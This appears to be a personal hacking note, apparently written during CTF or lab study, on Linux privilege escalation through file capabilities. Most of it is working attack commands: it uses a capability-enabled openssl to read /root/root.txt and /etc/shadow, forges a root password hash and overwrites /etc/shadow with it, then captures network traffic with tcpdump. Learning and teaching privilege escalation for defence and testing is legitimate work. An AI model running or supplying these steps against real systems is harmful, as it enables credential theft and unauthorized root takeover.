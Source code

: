 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Linux
  - Concepts
  - Information
---
```


[Linux Privilege Escalation using Capabilities - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

![[2b5171cc7bf44b8996e85892d1c26c35 1.png]]


# Guide

# OpenSSL

See [[OpenSSL]]
Capability `ep`, 

### Read

```
./openssl enc -base64 -in /root/root.txt -out ./root.txt.b64
base64 -d root.txt.b64
```
```

./openssl enc -base64 -in /etc/shadow -out ./shadow.b64
base64 -d shadow.b64 > shadow
```

### Write

```
openssl passwd -1 -salt root rick  #Makes a password
```

Edit shadow with these creds 

```
./openssl enc -in shadow -out /etc/shadow
```


# tcpdump

See [[TCPDump|TCPDump]]

Run:

```
tcpdump -D
```

Against any interfaces which look unusual:

```
timeout 150 tcpdump -w cap.pcap -i veth1665bcd
```
